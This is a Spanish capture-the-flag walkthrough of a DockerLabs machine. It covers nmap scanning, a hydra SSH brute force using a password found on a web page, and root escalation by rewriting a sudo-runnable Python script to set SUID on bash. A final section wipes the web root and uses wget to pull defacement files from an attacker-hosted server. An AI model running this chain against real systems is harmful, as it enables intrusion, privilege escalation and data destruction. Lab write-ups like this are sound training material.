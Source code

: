 
![[20250807112116.png]]

# Fase de reconocimiento

primero realizamos un escaneo básico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

una vez detectados los puertos que están abiertos realizamos un segundo escaneo con scripts básicos de nmap para ver que servicios y versiones corren por detras 

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![[20250807112448.png]]

una vez sabemos los servicios y versiones vamos a ver que se esta ejecutando en la pagina web del puerto 80.

vemos una pagina web de Ubuntu apache

![[20250807112714.png]]

esto corre por el puerto 80 en el directorio 172.17.0.2/index.html vamos a ver si existe un index.php

![[20250807112802.png]]

# Fase de explotacion

vemos que si existe y que contiene lo que podría ser una contraseña no parece que este encriptada ya que solo hay dos números y todas las letras son mayúsculas así que probaremos un ataque con hydra hacia el puerto 22 que estaba abierto usando esta cadena como posible contraseña

```bash
hydra -t 64 -v -L /usr/share/wordlists/SecLists/Usernames/Names/names.txt -p JIFGHDS87GYDFIGD -s 22 172.17.0.2 ssh
```

![[20250807114205.png]]

podemos ver que ha encontrado un usuario "carlos" cuya contraseña es "JIFGHDS87GYDFIGD" por lo que vamos a tratar de conectarnos por ssh.

![[20250807114312.png]]

Y efectivamente tenemos shell en la máquina victima.

# Fase de post-explotación

primero para trabajar mas cómodos haremos una exportación de la TERM a xterm que es la mas usada y cómoda para mi

```bash
export TERM=xterm
```

con esto ya podremos hacer Ctrl + L 


vamos a ver si tenemos permisos de SUDO con algun binario

```bash
sudo -l
```

![[20250807114542.png]]

aqui vemos que podemos ejecutar como root el script se python que esta en la ruta /opt

vamos a ver que permisos tenemos sobre el script

![[20250807114641.png]]

vemos que somos los propietarios del archivo por lo que vamos a eliminarlo y a crear un script con el mismo nombre pero que nos ayude a escalar a root

# Escalada de privilegios 

primero vamos al directorio /opt

```bash
cd /opt
```

y luego borraremos el archivo 

```bash
rm -rf script.py
```

ahora crearemos de nuevo el archivo pero con el siguiente codigo dentro:

```bash
nano script.py
```

```python
import os
import sys

os.system("chmod u+s /bin/bash")
```

lo guardamos y vamos a ejecutar el programa como root

```bash
sudo python3 /opt/script.py
```

![[20250807115058.png]]

ahi podemos ver que ahora la /bin/bash tiene permisos SUID lo que nos permite convertirnos en root cuando queramos con el comando

```bash
bash -p
```

![[20250807115155.png]]

# Extra 1 - alternativa código python

como siempre que hay un script de python con permisos sudo utilizo el comando "chmod u+s /bin/bash" os voy a dejar una alternativa por si quereis directamente la shell como root 

```python
import os
import sys

os.system("bash -p")
```

![[20250807115511.png]]

aqui podéis ver el código python, la bash no tiene permisos SUID y al ejecutar el programa con sudo nos da la shell directamente como root.

# Extra 2 - Firma en http

vamos a dejar nuestra firma en http como solemos hacer en los CTF de dockerlabs. Una vez somos root haremos 

```bash
cd /var/www/html/
```

```bash
rm -r ./*
```

y ahora en nuestra maquina atacante abrimos un puerto http con python

![[20250807115807.png]]

en esta carpeta tengo mi index.html con la imagen panda.png que es la que utilizo para dejar la firma panda2 era otra posible imagen que al final no utilice y proceso son los pasos que os estoy explicando. de esta carpeta lo único que deberíais tener es el index.html personalizado y la imagen que vayáis a utilizar, ahora si abrimos el puerto con python

```bash
python3 -m http.server 8081
```

y en la maquina victima pondremos lo siguiente 

```bash
wget http://192.168.1.182:8081/index.html -O index.html && wget http://192.168.1.182:8081/panda.png -O panda.png
```

![[20250807120048.png]]

una vez se confirma la descarga vamos a la pagina http de la victima y recargamos

![[20250807120120.png]]

y ahí esta nuestra firma.

si queréis ver el proceso con la creación y código del  html esta en mi writeup de la maquina chocolate de DockerLabs.